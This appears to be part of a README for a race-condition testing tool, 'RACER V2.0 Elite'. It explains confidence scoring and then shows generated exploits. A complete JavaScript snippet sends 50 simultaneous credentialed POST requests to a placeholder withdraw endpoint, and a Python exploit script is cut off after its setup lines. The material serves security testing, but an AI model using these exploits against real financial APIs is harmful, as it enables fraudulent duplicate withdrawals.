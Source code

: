 ### Confidence Levels

- **85-100%**: High confidence - Very likely vulnerable
- **70-84%**: Medium-high confidence - Likely vulnerable, needs verification
- **50-69%**: Medium confidence - Possibly vulnerable, further testing recommended
- **Below 50%**: Low confidence - May be false positive

### Race Visualization

Each small bar represents a request:
- **Green bars**: Successful requests
- **Red bars**: Failed requests

**Normal**: 1 green, 49 red (1 success out of 50)  
**Vulnerable**: 45 green, 5 red (45 successes out of 50)

---

## 💻 Exploit Generation

### JavaScript Exploit

Perfect for quick testing in browser console:

```javascript
// RACER V2.0 Elite - JS Exploit
// Target: https://api.example.com/api/withdraw
// Severity: CRITICAL - VERIFIED

(async()=>{
  console.log("[RACER] 🏁 Starting...");
  const p=[];
  for(let i=0;i<50;i++){
    p.push(fetch("https://api.example.com/api/withdraw",{
      method:"POST",
      body:'{"amount":100}',
      credentials:"include"
    }));
  }
  const r=await Promise.all(p);
  const s=r.filter(x=>x.ok).length;
  console.log("[RACER] ✓ Success:",s);
  console.log("[RACER] ✗ Failed:",r.length-s);
  if(s>1)console.log("[RACER] 🔴 RACE DETECTED!");
})();
```

### Python Exploit

Professional async script with colorful output:

```python
#!/usr/bin/env python3
"""RACER V2.0 Elite - Race Condition Exploit

Target: https://api.example.com/api/withdraw
Method: POST
Severity: CRITICAL - VERIFIED
"""
import asyncio,aiohttp,time
from colorama import Fore,Style,init
init(autoreset=True)

TARGET="https://api.example.com/api/withdraw"
METHOD="POST"
```